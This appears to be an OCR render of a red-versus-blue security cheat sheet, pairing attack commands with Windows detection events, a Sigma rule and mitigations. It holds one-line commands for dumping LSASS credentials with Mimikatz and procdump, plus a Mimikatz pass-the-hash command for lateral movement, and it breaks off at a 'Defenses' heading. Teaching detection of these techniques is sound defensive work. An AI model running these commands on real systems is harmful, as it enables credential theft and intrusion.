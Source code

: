 ### 🛑 Technique: Dumping LSASS with Mimikatz

**Red Side:**

```bash
mimikatz.exe
sekurlsa::logonpasswords

```

**Alternative:**

```bash
procdump.exe -ma lsass.exe lsass.dmp

```

### 🔎 Blue Side – Detection:

| Method | Details |
| --- | --- |
| Sysmon | Event ID 10 → Process access to `lsass.exe` |
| Windows Logs | Event ID 4688 → suspicious process creation |
| Sigma Rule | Detects `procdump` or `mimikatz` targeting LSASS |

**Mitigation:**

- Enable Credential Guard
- Restrict admin access
- Block unsigned binaries via AppLocker

---

## 🧲 2. Lateral Movement – Pass-the-Hash

### 🛑 Technique: Using NTLM hash to access other systems

```bash
mimikatz # sekurlsa::pth /user:Admin /domain:corp.local /ntlm:<hash>

```

### 🔎 Blue Side – Detection:

| Signal | How to See It |
| --- | --- |
| 4624 Logon with Type 3 or 9 | From unexpected host |
| No password used | Shows NTLM used |
| Kerberos ticket absence | Indicates PTH vs legitimate auth |

**Defenses:**
